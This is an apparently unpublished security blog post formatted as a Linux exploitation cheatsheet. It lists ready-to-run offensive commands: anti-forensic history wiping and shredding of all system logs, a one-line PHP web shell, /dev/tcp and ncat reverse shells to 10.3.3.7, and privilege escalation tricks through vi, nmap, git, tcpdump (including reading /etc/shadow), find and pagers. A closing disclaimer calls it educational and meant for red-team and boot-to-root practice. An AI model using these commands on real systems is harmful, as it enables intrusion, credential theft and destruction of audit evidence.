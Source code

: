 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
permalink: exploit-cheatsheet
published: false
categories:
- Security
tags:
- Ethical Hacking
author: Kirin
description: A Cheatsheet I have been working on that contains various Linux related
  payloads and post-exploitation methods.
blog_category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

\- Mac Spoofing -  
`ip link set dev eth0 down`  
`ip link set dev eth0 address <mac>`  
`ip link set dev eth0 up`  

\- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

\- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

\- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

\- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

\- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

\- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

\- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

\- Perl -  
`perl —e 'exec "/bin/sh";'`  

\- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

\- Lua -  
`lua: os.execute('/bin/sh')`  

\- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

\- Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

\- Git -  
`sudo git help status` - then type `!/bin/bash`  

\- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

\- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

\- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  
